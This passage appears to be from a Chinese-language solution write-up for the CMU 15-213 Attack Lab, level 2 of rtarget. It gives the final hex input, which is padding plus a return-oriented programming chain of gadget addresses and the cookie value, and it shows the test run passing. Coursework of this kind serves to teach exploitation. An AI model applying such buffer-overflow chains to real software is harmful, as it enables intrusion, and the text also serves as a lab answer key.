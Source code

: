 最后的输入如下：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

测试：

```shell
$ ./hex2raw <p4.txt| ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
